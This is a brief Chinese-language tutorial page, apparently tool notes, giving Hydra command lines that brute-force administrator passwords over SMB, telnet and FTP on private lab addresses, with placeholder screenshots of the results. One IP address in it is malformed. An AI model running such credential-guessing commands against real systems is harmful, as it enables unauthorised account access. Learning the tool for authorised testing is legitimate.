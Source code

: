 #####  Hydra使用案例  

```
 破解smb：  	 
 hydra -l administrator -P pass.txt -t 30 -e ns -vV smb://192.168.149.193  
```



![](./image/tools/wps1.jpg) 

######  得到结果  

![](./image/tools/wps2.jpg) 

 

```
 爆破   telnet  
 hydra -l administrator -P telnetPass.txt -t 30 -vV -e ns telnet://192.168.149.913   
```

![](./image/tools/wps3.jpg) 

######  得到结果  

![](./image/tools/wps4.jpg) 

 ```
破解ftp：  
Hydra -l ceshi -P ftpPass.txt -t 30 -vV -e ns ftp://192.168.149.193  
 ```


